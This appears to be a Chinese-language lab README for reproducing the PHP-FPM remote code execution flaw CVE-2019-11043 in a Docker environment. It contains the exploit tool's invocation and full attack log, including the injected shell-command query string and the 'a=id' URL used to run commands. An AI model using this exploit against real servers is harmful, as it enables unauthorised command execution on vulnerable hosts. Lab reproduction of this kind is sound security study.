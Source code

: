 # PHP-FPM 远程代码执行漏洞（CVE-2019-11043）

在长亭科技举办的 Real World CTF 中，国外安全研究员 Andrew Danau 在解决一道 CTF 题目时发现，向目标服务器 URL 发送 %0a 符号时，服务返回异常，疑似存在漏洞。

在使用一些有错误的Nginx配置的情况下，通过恶意构造的数据包，即可让PHP-FPM执行任意代码。

参考链接：

- https://bugs.php.net/bug.php?id=78599
- https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
- https://github.com/neex/phuip-fpizdam

## 漏洞环境

执行如下命令启动有漏洞的Nginx和PHP：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/index.php`即可查看到一个默认页面。

## 漏洞复现

使用<https://github.com/neex/phuip-fpizdam>中给出的工具，发送数据包：

```
$ go run . "http://your-ip:8080/index.php"
2019/10/23 19:41:00 Base status code is 200
2019/10/23 19:41:00 Status code 502 for qsl=1795, adding as a candidate
2019/10/23 19:41:00 The target is probably vulnerable. Possible QSLs: [1785 1790 1795]
2019/10/23 19:41:02 Attack params found: --qsl 1790 --pisos 152 --skip-detect
2019/10/23 19:41:02 Trying to set "session.auto_start=0"...
2019/10/23 19:41:02 Detect() returned attack params: --qsl 1790 --pisos 152 --skip-detect <-- REMEMBER THIS
2019/10/23 19:41:02 Performing attack using php.ini settings...
2019/10/23 19:41:02 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/23 19:41:02 Trying to cleanup /tmp/a...
2019/10/23 19:41:02 Done!
```

![](1.png)

可见，这里已经执行成功。

我们访问`http://your-ip:8080/index.php?a=id`，即可查看到命令已成功执行：

![](2.png)

注意，因为php-fpm会启动多个子进程，在访问`/index.php?a=id`时需要多访问几次，以访问到被污染的进程。
